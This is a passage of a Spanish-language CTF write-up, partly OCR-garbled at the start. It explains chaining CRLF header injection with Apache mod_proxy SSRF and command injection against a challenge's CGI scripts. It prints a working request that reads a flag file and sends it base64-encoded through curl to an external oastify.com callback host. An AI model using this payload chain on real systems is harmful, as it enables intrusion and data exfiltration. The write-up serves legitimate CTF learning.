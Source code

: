 Este r

el ctf acaba 8am de 26
```js
GET /cgi-bin/attack-domain?target=-&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(curl%25%32%30cfvekttb0yhbc2ia84d9zkasqjwak68v.oastify.com?p=$(echo%25%32%30%27cd%25%32%30..%25%33%62cd%25%32%30..%25%33%62cd%25%32%30..%25%33%62%25%32%30cat%25%32%30flag-jQpEEi2A5JK8HR8.txt%27|sh|%25%32%30base64%25%32%30-w0))%260name=%0D%0A%0D%0A
```

attack-domain file:

```js
def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

Se observa que imprime Location: y Content-Type, pero no valida que name no incluya \r\n, lo que permite inyectar nuevas cabeceras HTTP, adicionalmente en el archivo Dockerfile se habilita el módulo proxy para Apache, el cual permite enviar peticiones a servicios http.

```docker
RUN a2enmod rewrite cgi proxy proxy_fcgi proxy_http
```

Ejemplo, si envío `name=a%0d%0aLocation: /a%0d%0aContent-Type: proxy:...`, se transforma en la siguiente respuesta.

```http
HTTP/1.1 302 Found
Location: /a
Content-Type: proxy:http://127.0.0.1/cgi-bin/attack-ip?target=...
```

Ahora que ya encontramos la forma de hacer solicitudes internas es hora de abusar del endpoint /attack-ip, el cual tiene como código.

```python
#!/usr/bin/env python3

import cgi
import os
from ipaddress import ip_address

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')

try:
    count = 1  # Increase this for an actual attack
```